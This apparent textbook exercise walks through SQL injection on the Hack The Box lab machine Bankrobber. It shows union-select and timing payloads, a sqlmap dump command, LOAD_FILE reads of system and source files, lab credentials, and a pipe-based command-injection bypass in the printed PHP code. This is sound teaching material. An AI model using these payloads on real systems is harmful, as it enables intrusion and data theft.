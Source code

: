 # Exercise: Using SQL injection on the Bankrobber box

In order to try out SQL injection, we will go back to the Hack The Box machine, Bankrobber. The XSS exploitation will gae us credentials for the admin user and with those, we can access the administration functionality of the site where you discover a user's search function that is SQL injectable \(Figure 3-1\).

![Search functionality available after logging in as admin on Bankrobber](../.gitbook/assets/2%20%289%29.png)

You know that it is SQL injectable through the following process: Simple numbers like 1 and 2 in the search query return users with those numbers as ids. Putting a single quote after the number results in an error that is returned saying that “There is a problem with your SQL syntax”. Adding the MySQL comment text 1'-- - into the search field then returns the user again.

Catching the entire search request in Burp \(turn on the Burp proxy option in FoxyProxy and click search to intercept the request in the Proxy tab, then send the request to the Repeater tab in Burp using CTL-R\) allows us to play with the SQL and determine that it is “union select” injectable. To determine the number of columns that the original query is returning, we can use the following injection and sending it via Burp repeater:

```sql
term=1'+order+by+1--+-
```

This returns one user from the request. Incrementing the order by clause to 4 returns an error “There is a problem with your SQL syntax” telling us that the number of columns in the original query was 3. This means you can now carry out a union select with the query string:

```sql
term=1'+union+select+'Field1','Field2',3--+-
```

This returns the output

```markup
HTTP/1.1 200 OK
Date: Thu, 01 Oct 2020 04:53:15 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
X-Powered-By: PHP/7.3.4
Content-Length: 180
Connection: close
Content-Type: text/html; charset=UTF-8
<table width='90%'><tr><th>ID</th><th>User</th></tr>
 <tr>
 <td>1</td>
 <td>admin</td>
 </tr>
 <tr>
 <td>Field1</td>
 <td>Field2</td>
 </tr>
 </table>
```

Knowing that this is a union select injectable field and that the database is MySQL, you can dump the default database using the sqlmap command:

`sqlmap -r search.req --batch --dbms MySQL --technique U -p term --dump`

Without the parameters –dbms, --technique and -p sqlmap will determine these itself, but it is faster to provide them if you already know the answer.

sqlmap can carry out blind attacks by using timing techniques. These work by introducing a delay in the response if the answer to a query is true. An example of this given by OWASP for MySQL uses the BENCHMARK\(50000000,ENCODE\('MSG', 'by 5 seconds'\)\) statement to introduce an approximately 5 second pause. So the SQL statement

```sql
1' UNION SELECT IF(SUBSTRING(user_password,1,1) = CHAR(50),
BENCHMARK(5000000,ENCODE('MSG','by 5 seconds')),null) 
FROM users WHERE user_id = 1
```

Will test if the first character in the password is ‘2’ \(assuming the password is in clear text\).

Whilst sqlmap can save time in obtaining information from SQL injection, it is always useful to know how to get the information manually. For example, in Bankrobber, you can list the databases in MariaDB with the command:

```sql
term=1'+union+select+'Field1',(SELECT group_concat(schema_name) 
FROM information_schema.schemata),3--+-
```

The response will include the databases

`bankrobber,information_schema,mysql,performance_schema,phpmyadmin,test`

The site, PayloadsAllTheThings has a SQL Injection Cheat Sheet that lists other commands for exploring databases.

We can list the tables in the database bankrobber with the following query:

```sql
term=1' union select 1,table_name,3 from INFORMATION_SCHEMA.TABLES 
where table_schema=database()-- -
```

This returns the tables: admin, balance, hold and users. We can list the columns in the users table using the command:

```sql
term=1' union select 1,group_concat(0x7c,column_name,0x7c),3 
from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -
```

This returns the column names:

`|id|,|username|,|password|,|USER|,|CURRENT_CONNECTIONS|,|TOTAL_CONNECTIONS|`

Finally, we could list the usernames and passwords for the users:

```sql
term=1' union select 1,group_concat(username,0x3a,password),3 from users-- -
```

Which returns:

`admin:Hopelessromantic,gio:gio`

Nothing particularly useful. One function that you can use in SQL is the LOAD\_FILE function which will allow us to include a local file into the response. We can try it with a well known Windows file c:\Windows\win.ini

```sql
term=1' union select 1,LOAD_FILE('c:\\Windows\\win.ini'),3-- -
```

And sure enough, this returns the contents of the file:

```sql
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

If we enumerate the web directories with Gobuster we find for the root directory:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $gobuster dir -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -u http://bankrobber.htb
<SNIP>
/index.php (Status: 302)
/img (Status: 301)
/login.php (Status: 302)
/register.php (Status: 200)
/user (Status: 301)
/admin (Status: 301)
/link.php (Status: 200)
/css (Status: 301)
/Index.php (Status: 302)
/Login.php (Status: 302)
/js (Status: 301)
/notes.txt (Status: 200)
/logout.php (Status: 302)
/licenses (Status: 403)
```

The file of particular interest is notes.txt which when we look at says:

```text
- Move all files from the default Xampp folder: TODO
- Encode comments for every IP address except localhost: Done
- Take a break..
```

The key bit of information is that the Xampp folder is in the default location. XAMPP is a product that packages up Apache, MariaDB, PHP and Perl to run web applications. MariaDB is compatible with MySQL and so is largely indistinguishable for our purposes.

Going back to the home page, there was another function called a We also know that the function called a Backdoorchecker that said it would allow the dir command but when you try it, you get an error message:

It's only allowed to access this function from localhost \(::1\).

This is due to the recent hack attempts on our server.

It would be worth looking at the code for this file which we can do using SQL injection

```sql
term=1' union select 1,LOAD_FILE('c:\\xampp\\htdocs\\admin\\backdoorchecker.php'),3-- -
```

This returns the code for backdoorchecker.php

```php
<?php
include('../link.php');
include('auth.php');
$username = base64_decode(urldecode($_COOKIE['username']));
$password = base64_decode(urldecode($_COOKIE['password']));
$bad = array('$(','&');
$good = "ls";
if(strtolower(substr(PHP_OS,0,3)) == "win"){
 $good = "dir";
}
if($username == "admin" && $password == "Hopelessromantic"){
if(isset($_POST['cmd'])){
 // FILTER ESCAPE CHARS
  foreach($bad as $char){
    if(strpos($_POST['cmd'],$char) !== false){
      die("You're not allowed to do that.");
    }
  }
 // CHECK IF THE FIRST 2 CHARS ARE LS
 if(substr($_POST['cmd'], 0,strlen($good)) != $good){
   die("It's only allowed to use the $good command");
 }
 if($_SERVER['REMOTE_ADDR'] == "::1"){
   system($_POST['cmd']);
 } else{
   echo "It's only allowed to access this function from localhost (::1).<br> This is due to the recent hack attempts on our server.";
 }
 }
} else{
 echo "You are not allowed to use this function!";
}
?>
```

The key things about this code are that it checks that cookie has username with a value of "admin" and password with a value of "Hopelessromantic" u. It then checks that the command does not include '&' which would allow us to run a second command after the 'dir' command v. It checks that the command starts with 'dir' so that we can't substitute other commands instead w. It checks if the request came from the local machine x. Finally, it executes the command y. The flaw here is is that although it is checking for bad characters that could manipulate the command and run other arbitrary commands, it still allows us to use the '\|' character which works in the same way as the '&' after a command.

We can now run a command but we still need to do this using server-side request forgery using the XSS vulnerability as we did earlier in the chapter.

